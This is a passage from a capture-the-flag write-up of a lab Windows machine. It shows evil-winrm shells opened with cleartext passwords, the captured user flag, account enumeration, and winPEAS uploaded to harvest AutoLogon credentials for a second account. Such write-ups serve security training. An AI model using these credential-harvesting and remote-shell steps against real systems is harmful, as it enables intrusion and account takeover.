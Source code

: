     :::text
    ruby evil-winrm.rb -u fsmith -i 10.10.10.175 -p 'Thestrokes23'

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\FSmith\Documents> cat ../Desktop/user.txt
    1b5520b98d97cf17f24122a55baf70cf

# Getting root

## Getting svc_loanmgr

We take a look at the other users on the box using `net user`.

    :::text
    *Evil-WinRM* PS C:\Users\FSmith\Documents> net user

    User accounts for \\

    -------------------------------------------------------------------------------
    Administrator            FSmith                   Guest
    HSmith                   krbtgt                   svc_loanmgr
    The command completed with one or more errors.


We upload
[winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
from the Privilege Escalation Awesome Scripts SUITE and run it on the box.

It found some AutoLogon credetials for the account `svc_loanmgr`.

    :::text
    [+] Looking for AutoLogon credentials(T1012)
      Some AutoLogon credentials were found!!
          DefaultDomainName             :  EGOTISTICALBANK
          DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
          DefaultPassword               :  Moneymakestheworldgoround!

We connect on the box with the svc_loanmgr account using
[evil-winrm](https://github.com/Hackplayers/evil-winrm).

    :::text
    ruby evil-winrm.rb -u svc_loanmgr -i 10.10.10.175 -p 'Moneymakestheworldgoround!'

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents>

## Enumerating our user's privileges

We run the `whoami /all` command to list our user permissions but there is
nothing interesting here: As the [Microsoft documentation](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment)
point out all our privileges and group are legitimate.
